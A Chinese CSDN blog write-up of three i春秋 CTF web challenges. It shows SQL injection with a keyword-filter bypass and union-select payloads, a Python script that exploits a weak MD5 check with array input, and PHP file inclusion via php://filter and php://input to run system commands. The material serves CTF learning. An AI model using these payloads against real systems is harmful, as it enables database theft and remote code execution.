







<!--yml
category: 未分类
date: 2022-04-26 14:21:40
-->

# i春秋CTF-WEB题解(二)_ 晓德的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42271850/article/details/107190310](https://blog.csdn.net/weixin_42271850/article/details/107190310)

## 简述

        还是和之前一样，每做三题写一个题解记录一下。

### 一、SQL（百度杯CTF比赛 九月场）



> 题目给的提示是：题目内容提示这是一道SQL注入的题目。打开网页查看源代码能看到有一些提示：

```
<!--SELECT * FROM info  WHERE id=1--><br />flag{在数据库中}<br /><br /> 
```

> 开始进行尝试
> 1）index.php?id=1 返回 flag{在数据库中}
> 2）index.php?id=2 返回 test
> 3）index.php?id=3 返回 空白
> 4）index.php?id=1%27 返回 空白
> 5）index.php?id=1%27%23 返回空白
> 6）index.php?id=1%23 返回 flag{在数据库中}
> 7）index.php?id=1 order by 1%23 返回 inj code!
> 尝试到这里能发现应该是有对部分关键字做检测的
> 8）然后就做一个关键字的FUZZ测试
> 发现select、order by是被检测到的，or后面跟空格也是会被检测到。
> 9）index.php?id=1 oRDer by 1%23 返回 inj code!
> 10）index.php?id=1 o/**/rder by 1%23 返回空，内敛注释绕过失败
> 11）index.php?id=1 ororderder by 1%23 返回空，双写绕过失败
> 12）index.php?id=1 o<>der by 1%23 返回 flag{在数据库中} ，绕过成功

```
证明可以通过<>的方式来绕过检测，剩下的就按照正常的注入方式操作即可。
1、?1 o<>der by 3%23   确定一共三个字段
2、?id=0 union se<>lect 1,2,3%23 确认注入点再第二个字段
3、?id=0 union se<>lect 1,database(),3%23 确认数据库为sqli
4、?id=0 union se<>lect 1,group_concat(table_name),3 from information_schema.tables where table_schema =database()%23 确认表名为info,users
5、?id=0 union se<>lect 1,group_concat(column_name),3 from information_schema.columns where table_name = 'info'%23 确认列名id,title,flAg_T5ZNdrm
6、?id=0 union se<>lect 1,group_concat(flAg_T5ZNdrm),3 from info%23 能查到对应的flag 
```



### 二、爆破-3（百度杯CTF比赛 2017 二月场）



> 题目提示这题是采用爆破的形式，打开题目链接，也是一段PHP代码。

```
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>

代码解析:
开启session
引入flag.php
判断session中是否有设置nums，没有设置的话会初始化一个session，nums为0，time为当前时间，whoami为ea
判断当前session的time是不是120ms前的，如果是的话就销毁当前session
从请求value中读取值赋值到变量$value上
创建一个a-z的数组$str_rand
$str_rands变量赋值为随机两个字母
判断当前session中whoami参数是不是等于$value的前两位，且$value md5加密后截取5-8位是不是弱等于0
如果是的话$nums加1，$whoami为$str_rands，打印出$str_rands
判断当前session中$nums是不是大于10，如果是就打印出flag。 
```

> 梳理一下相关逻辑。首先第一次访问，肯定是没有session的，这时候会被初始化session，这时候nums为1，time为目前时间，whoami为ea。然后这时候肯定不会超时，所以不用管。这时候会拿我们传进去的参数和whoami进行对比，那说明我们要传ea进去，还需要比对截取的MD5值和0，一般使用数组可以绕过这些弱比较。这是时候就会nums加1，然后将whoami指定为一个新的2位随机数，并打印出来。如果最后nums超过10，就能拿到flag。

> 1、首先因为会有超时的机制，所以基本不可能是手动操作，应该是要写脚本。
> 2、其次我们需要第一次传入ea，然后得到打印出的随机数作为值第二次访问页面并进行传入。
> 3、只要我们连续10次成功，就能在页面中看到flag，那开始动手写代码。

```
import requests

s = requests.Session()
url = "http://4a39e963a34444da980688f11b229d0fca847b4f6b014e29.changame.ichunqiu.com/?value[]="
tmp = "ea"
for i in range(12):
    r = s.get(url + tmp)
    print(r.text)
    tmp = r.text[0:2] 
```



### 三、include（百度杯CTF比赛 2017 二月场）



> 看题目的简介应该是一道文件包含漏洞的题目，打开题目链接能看到PHP代码，并且phpinfo的相关信息。

```
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
代码解析：
判断请求参数中有没有path，如果有就包含，没有就包含phpinfo.php页面 
```

> 分析一下，首先我们登陆进去肯定是没传参数的，所以包含了phpinfo.php页面，展示了相关的信息。那么一般文件包含就能联想到phpinfo中的两个配置的开关，allow_url_fopen和allow_url_include。



> 看到allow_url_include开关是打开的，证明网站确实有文件包含漏洞，而且刚好我们传入的参数也就是包含的文件名。
> 1、尝试用path=php://filter/read=convert.base64-encode/resource=index.php读取index.php的源码，能读到但是没什么用。
> 2、尝试用path=php://filter/read=convert.base64-encode/resource=phpinfo.php读取index.php的源码，能读到但是没什么用。
> 3、尝试用?path=php://input，将请求变为POST，并在请求体中写入<?php echo (123); 发现页面有打印123，证明可以代码执行。
> 4、将请求体改为<?php system(‘ls -l’); 发现存在dle345aae.php页面
> 5、将请求体改为<?php system(“cat dle345aae.php”); 能看到flag。

